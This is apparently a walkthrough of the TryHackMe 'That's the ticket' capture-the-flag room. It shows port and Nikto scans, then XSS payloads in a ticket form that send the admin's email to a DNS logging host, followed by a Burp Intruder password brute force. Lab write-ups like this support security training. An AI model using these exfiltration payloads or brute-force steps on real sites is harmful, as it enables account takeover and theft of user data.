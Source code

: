 # Walk through: That's the ticket

![](./assets/thmpage.png)


https://tryhackme.com/room/thatstheticket


IP: 10.10.28.159

## Nmap 

```bash
nmap -p- -v 10.10.28.159
```

```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

## Nikto 

```bash
nikto -h 10.10.28.159
```

```bash
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.28.159
+ Target Hostname:    10.10.28.159
+ Target Port:        80
+ Start Time:         2021-06-09 20:45:01 (GMT1)
---------------------------------------------------------------------------
+ Server: nginx/1.14.0 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-3092: /login/: This might be interesting...
+ OSVDB-3092: /register/: This might be interesting...
+ 7889 requests: 0 error(s) and 5 item(s) reported on remote host
+ End Time:           2021-06-09 20:48:15 (GMT1) (194 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


## Webpage

![](./assets/main.png)

1. Click register to register up a new account 

![](./assets/register.png)

2. After logging in we see the dashboard.

![](./assets/dashboard.png)

3. Cheking the webpage we see the message box is vunerable to XSS injection

![](./assets/createticket.png)

```js
</textarea><script>alert(1)</script>
```

#Room hint from tryhackme page
```markdown
Hint: Our HTTP & DNS Logging tool on http://10.10.10.100 may come in useful!
```

## DNS time!

Using the found xss bug we can use this to make callbacks to our machine and from the hint we got earlier. 
http://10.10.10.100 This is a DNS service that logs dns calls for us. We can also use a site like this, http://pingb.in/

Knowing we can use xss lets try a call back to the dns service. 

```js
</textarea><img/src=x onerror="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/"/>
```

This gets the call back four times, 3 from us and once from the server (admin is looking)

![](./assets/recievedadmin.png)

Now lets try to get some data back!

I tried cookies for a while but realised we only needed the admins email (always keep in mind the scope and spec!)

New payload

```js
</textarea><script>var i = new Image(); i.src="//8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

But this was not working, data was not coming back from the server.
After a little while, I decided to try a subdomain. 

```js
</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>
```

This came back! 

![](./assets/test.png)

Now we can get the admins email address, but we will have to swap a few charaters to not break the url to the dns service (escaping chars like @.')

```js
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```
Press Create ticket and check the results on the service http://10.10.10.100

![](./assets/admin1.png)

We see the admin email and ours!

Now we can brute force the login page for the admins password as we have the email now.

Using Burp suite's intruder module we can select the password and then feed in a list of passwords on the payload's tab

![](./assets/login.png)

After a short while we get a hit. 

![](./assets/brutewin.png)




And the final flag! 

![](./assets/flag1.png)




